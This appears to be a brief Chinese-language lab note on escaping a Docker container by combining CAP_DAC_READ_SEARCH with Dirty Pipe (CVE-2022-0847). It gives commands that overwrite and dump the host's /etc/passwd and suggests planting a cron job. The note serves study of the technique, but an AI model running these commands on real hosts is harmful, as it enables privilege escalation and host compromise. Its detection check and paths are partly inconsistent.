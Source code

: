 ### 环境

```
docker run --rm -it -v $(pwd):/exp --cap-add=CAP_DAC_READ_SEARCH ubuntu
```

### 检测

```
# apt update && apt install libcap2-bin -y
capsh --print |grep -i cap_dac_read_search && echo 'CVE-2022-0847 is exist!' || echo 'CVE-2022-0847 is Not exist!'
```

### 利用

```
/exp/dp /etc/passwd 1 ootz: # overwrite /etc/password on host from offset 1
/etc/dp /etc/passwd # dump /etc/passwd on host
```

> 通过利用`CAP_DAC_READ_SEARCH`与脏管道可以实现覆盖主机文件, 实际上主要是`CAP_DAC_READ_SEARCH`可以调用`open_by_handle_at`, 可以获得主机文件的文件描述符，配合脏管道于是就可以修改主机文件。
>
> 不过该逃逸有个缺点，覆盖文件的第一个字节无法修改，可以写计划任务

